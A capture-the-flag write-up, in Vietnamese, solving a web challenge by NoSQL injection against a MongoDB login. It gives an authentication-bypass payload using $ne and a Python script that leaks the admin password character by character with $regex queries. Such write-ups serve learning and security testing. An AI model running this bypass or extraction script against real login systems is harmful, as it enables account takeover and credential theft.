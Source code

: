 Wild Goose Hunt
===
### Description
Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?

### Solution
- Phân tích code: Kiểm tra sơ qua source code thì chúng ta không thấy flag nằm ở bất kì đâu trong source ngay cả khi đăng nhập thành công admin.
![image](https://user-images.githubusercontent.com/54855855/115963299-e994bf00-a548-11eb-8488-81a3522a430b.png)
Ở đoạn code này chúng ta nhập vào username và password và ở đây chương trình sử dụng mongo db nên mình nghĩ có thể là nosqli nên vì vậy mình thử với payload sau
`username[$ne]=a&password[$ne]=a` và kết quả chúng ta nhận được là `Login Successful, welcome back admin.` => khi đăng nhập thành công admin thì chúng ta cũng ko có flag. Tới đây mình nghĩ có thể là flag nằm ở trong db cụ thể là password của admin
Vì vậy mình sử dụng đoạn script sau để blind nó.

### Payload
```py
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="url/api/login"
headers={'content-type': 'application/json'}

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'Login Successful' in r.text or r.status_code == 302:
                print("Found one more char : %s" % (password+c))
                password += c
```